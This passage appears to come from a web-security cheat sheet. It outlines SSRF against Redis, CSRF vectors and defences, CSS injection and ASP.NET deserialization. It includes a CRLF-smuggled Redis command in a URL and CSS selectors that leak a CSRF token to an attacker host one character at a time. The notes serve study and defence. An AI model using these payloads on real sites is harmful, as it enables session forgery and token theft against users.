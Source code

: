 - Redis

  ```
  http://127.0.0.1:6379/%0D%0ASET%20key%20"value"%0D%0A
  -----------------------------------------------------
  SET key "value"\r\n
  ```

#### CSRF
- Cookies Security
  - HttpOnly
  - Secure
  - Domain, Path, SameSite
- HTML Element
  - GET: `<img>`, `<iframe>`, `<form>`
  - POST: `<form>`
- JavaScript
  - GET/POST: `fetch`, `XMLHttpRequest`
- Limitation
  - [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests)
- Mitigation
  - Same-origin policy (SOP)
    - [SameSite cookies explained](https://web.dev/samesite-cookies-explained/)
    - [SameSite Cookie Changes in February 2020: What You Need to Know](https://blog.chromium.org/2020/02/samesite-cookie-changes-in-february.html)
  - CSRF token

#### CSS Injection
- expression()
- import URL (CSRF)
  - Referer
  - url(...)

    ```
    body {
      background:
      url(http://example.com/logout);
    }
    ```

  - ...
- CSS Selector
  > Read part of HTML source, like CSRF Token

  ```css
  input[name=csrf][value^="1"]{background:url(http://ip/1)}   X
  input[name=csrf][value^="2"]{background:url(http://ip/2)}   O
  input[name=csrf][value^="2a"]{background:url(http://ip/2a)} X
  input[name=csrf][value^="2e"]{background:url(http://ip/2e)} O
  ...
  <input type="text" name="csrf" avlue="2e58ca...">
  ```

#### Deserialization
- ASP.NET Deserialization
  > `ViewState`, `Session`, ... are highly possible to have serialize data
  > encrypted by `machine key` stored in `web.config`.

